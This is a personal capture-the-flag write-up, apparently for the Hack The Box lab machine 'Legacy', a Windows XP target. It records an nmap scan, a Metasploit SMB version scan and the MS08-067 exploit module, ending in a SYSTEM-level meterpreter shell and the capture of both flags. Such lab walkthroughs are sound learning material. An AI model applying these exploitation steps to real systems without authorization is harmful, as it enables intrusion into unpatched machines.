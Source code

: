 # Legacy 10.10.10.4 - Windows

 - __User__: 001 - 1st Attempt
 - __Root__: 001 - 1st Attempt

## 00 - Initial Attempt, 05/04/20

`nmap -sC -sV -oA legacy -Pn 10.10.10.4`

```shell
thoth@kali:~/Projects/htb-notes/machines/Legacy/dumps$ nmap -sC -sV -Pn 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 20:05 EDT
Nmap scan report for 10.10.10.4
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h26m27s, deviation: 2h07m17s, median: -5h56m28s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ff:cb (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-05T00:08:46+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.38 seconds
```

#### Initial Ideas and Reactions

 - Windows XP machine
 - port 139 is smb server
  - message signing disabled, guest account, auth level user
 - 445 Windows File Sharing and other MS services
 - 3389 CLOSED ms-wbt-server


Attempted to use `smbclient -L` along with `-U`, `-p`, `-I` etc to try to connect to 139 and 445. No dice. Ran `msfconsole` and `/scanner/smb/smb_version`:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
```

Following along with CyberMentor I `msf5 > search windows/smb` and `use windows/smb/ms08_067_netap`

```powershell
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here I was able to navigate to `C:\Documents and Settings\john\Desktop` to find the user flag. And into `Administrator` for the root flag.